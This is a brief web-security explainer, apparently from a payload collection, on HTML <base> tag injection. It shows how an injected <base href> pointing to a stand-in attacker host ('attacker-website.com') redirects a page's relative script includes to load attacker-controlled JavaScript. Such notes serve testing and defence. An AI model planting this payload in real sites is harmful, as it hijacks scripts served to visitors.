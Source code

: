 The HTML [&lt;base&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) element specifies the base URL to use for all relative URLs in a document.

> Note: If multiple &lt;base&gt; elements are used, only the first href and first target are obeyed — all others are ignored.

# Relative URL redirection

&lt;base&gt; tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:

```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:

```html
<base href="https://attacker-website.com">
``` 

the browser will request `https://attacker-website.com/assets/some-script.js`.